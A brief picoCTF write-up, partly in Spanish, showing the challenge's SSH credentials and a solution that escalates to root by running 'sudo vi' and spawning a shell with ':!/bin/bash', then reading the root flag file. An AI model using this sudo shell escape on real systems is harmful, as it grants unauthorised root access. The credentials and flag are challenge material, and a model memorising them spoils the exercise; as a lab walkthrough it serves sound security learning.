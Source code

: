 Can you read files in the root file?
The system admin has provisioned an account for you on the main server:`ssh -p 55267 picoplayer@saturn.picoctf.net`Password: `e3pn6lmvHt`Can you login and read the root file?

Hints:
1. What permissions do you have?

## Solución 1:
Nos conectamos con SSH y ejecutamos un script usando vim
```
picoplayer@challenge:~$ sudo vi test
[sudo] password for picoplayer:

#Vim
:!/bin/bash
#Vim

root@challenge:/home/picoplayer# whoami
root      
root@challenge:/challenge# cd /root/
root@challenge:~# ls -a
.  ..  .bashrc  .flag.txt  .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_f6ad392b}
```